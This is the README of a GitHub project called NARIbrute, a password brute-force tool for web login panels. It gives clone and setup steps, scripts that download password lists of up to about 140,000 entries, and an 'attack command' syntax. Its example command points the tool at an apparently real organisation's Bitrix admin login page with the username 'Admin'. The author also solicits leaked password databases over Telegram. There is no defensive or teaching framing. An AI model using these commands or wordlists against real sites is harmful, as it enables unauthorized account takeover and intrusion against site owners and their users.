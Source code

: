 <h1 align="center">Subscribe to my telegram<a href="https://t.me/samurai_figure" target="_blank">N∆RI</a> 
<img src="https://github.com/blackcater/blackcater/raw/main/images/Hi.gif" height="32"/></h1>
<h3 align="center">N∆RIbrute</h3>
<h3 align="center">Passwords are now ~ 29000</h3>
<img src="https://i.ibb.co/bJ0f863/Screenshot-2022-06-16-16-35-09-31-84d3000e3f4017145260f7618db1d683.jpg" alt="icon">
I will constantly update if you want to help throw password databases in my telegrams in .txt format @samurai_gh<br>
We can say that it is "universal" if the form of sending is as follows<br>
post login[username]<br>
post login[password]<br>
<h3 align="center">Installation:</h3><br>
Clone git<br>
 
```shell
git clone https://github.com/Samuraianonweb/NARIbrute
```
<br>
 
```shell
cd NARIbrute
```
<br>

Installation the password database (random 500 passwords) <br>
```
python2 baza_pass.py
```
Download a database of 10,000 passwords<br>
```
python2 full.py
```
Download the database 140991 passwords (unprocessed)<br>
```
python2 all.py
```
If you need to download the database by number (To sort the load on the machines) . All bases:https://github.com/Samuraianonweb/password<br>
The base id is the first digit (id) _500.txt<br>

```shell
python2 id_baza.py
```

```shell
Number Id? Enter the base number
```
<h3 align="center">Attack command:</h3>
 
```shell
python2 brute -url -login pass.txt 
```
-url = Panel / login link<br>
-login = Login (if known, if not insert Admin / admin)<br>
Examples of ready-made team <br>
```shell
python2 brute https://id.sechenov.ru/bitrix/admin Admin pass.txt
```
